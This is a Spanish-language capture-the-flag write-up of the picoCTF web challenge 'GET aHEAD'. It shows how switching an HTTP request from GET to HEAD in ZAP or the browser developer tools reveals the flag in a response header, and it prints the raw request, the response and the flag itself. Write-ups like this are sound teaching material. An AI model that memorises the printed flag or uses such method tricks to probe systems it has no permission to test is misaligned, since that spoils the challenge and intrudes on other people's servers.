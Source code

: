 ```yaml
---
title: GET a HEAD
date: 2025-04-14 22:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, getahead, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>GET aHEAD
Author: madStacks
Description
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:28916/
{: .prompt-tip }

Al abrir la web aparece dos bontones, red y blue, parec euna página PHP y si nos fijamos parece que se lo podrían pasar parámetros.
http://mercury.picoctf.net:28916/index.php?

El reto nos da una pista de como debemos proceder, "GET a HEAD", por lo tanto podemos modificar el método GET 
Capturo con Zap el request y lo edito en el requester modificando GET por HEAD. 
Característica	GET	devuelve el BODY del recurso mientras que HEAD devuelve cabeceras (headers) sin cuerpo.

``` html
HEAD http://mercury.picoctf.net:28916/index.php HTTP/1.1
host: mercury.picoctf.net:28916
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Referer: http://mercury.picoctf.net:28916/index.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i
content-length: 4

HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_70bc61c4}
Content-type: text/html; charset=UTF-8
```
Lo anterior también se puede hacer en Firefox desde la consosla del desarrollador y en la pestaña de red modficar el método y volver a enviar 
la petición

flag: **picoCTF{r3j3ct_th3_du4l1ty_70bc61c4}**

Este reto es una introducción al método HEAD, intersante no olvidarse que puede haber información en las cabeceras.
No obstante entiendo que GET debería mostrar ambas informaciones a no ser que el administrador del sistema manipule el servidor
para que esta información varie en función de la petición que se le haga a la web.
